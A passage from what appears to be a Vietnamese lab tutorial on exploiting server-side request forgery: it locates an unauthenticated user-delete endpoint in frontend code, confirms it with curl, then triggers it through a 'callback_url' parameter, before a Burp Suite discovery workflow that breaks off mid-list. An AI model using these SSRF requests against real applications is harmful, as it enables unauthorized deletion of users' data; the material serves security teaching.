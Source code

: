 #### **Bước 2: Xem Frontend Source**

```javascript
// F12 → Sources → src/components/AdminUsers.js

const handleDelete = async (userId) => {
  try {
    // FOUND IT! ↓
    await axios.delete(`http://localhost:8081/api/users/delete/${userId}`);
    fetchUsers();
  } catch (error) {
    console.error('Error deleting user:', error);
  }
};
```

**→ Endpoint: `/api/users/delete/{id}`** ✅

#### **Bước 3: Test trực tiếp (nếu có port exposed)**

```bash
# Trong lab này, port 8081 được expose
curl -X DELETE http://localhost:8081/api/users/delete/5

# Response:
{"message": "User deleted successfully"}

# → Confirmed! Endpoint này KHÔNG cần authentication!
```

#### **Bước 4: Khai thác qua SSRF**

```bash
# Từ public internet
curl "https://yourapp.com/api/inventory/1/M?callback_url=http://user-service:8081/api/users/delete/5"

# Backend sẽ gọi internal service
# User ID 5 bị xóa! 🎯
```

---

## 🎯 **BURP SUITE WORKFLOW**

### **Complete Workflow để tìm và khai thác:**

```
1. INTERCEPT TRAFFIC
   ├─ Proxy → Intercept → Browse site
   ├─ Capture all requests
   └─ Save to Burp Project

2. MAP APPLICATION
   ├─ Target → Site map
   ├─ Spider → Crawl entire site
   └─ Analyze all endpoints

3. DISCOVER PARAMETERS
   ├─ Send request to Intruder
   ├─ Fuzz parameters (callback, url, etc.)
   └─ Analyze responses

4. SSRF DETECTION
   ├─ Burp Collaborator → Copy URL
   ├─ Test: ?callback_url=burp-collab-url
```